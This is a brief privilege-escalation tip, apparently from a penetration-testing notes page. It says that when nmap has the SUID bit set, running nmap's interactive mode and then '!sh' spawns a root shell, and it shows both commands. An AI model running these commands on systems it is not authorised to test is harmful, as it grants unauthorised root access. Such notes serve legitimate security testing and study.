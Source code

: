 If nmap has SUID bit set we can use below commands to gain root privileges on the machine


```
`nmap --interactive`
```

```
`nmap> !sh`
```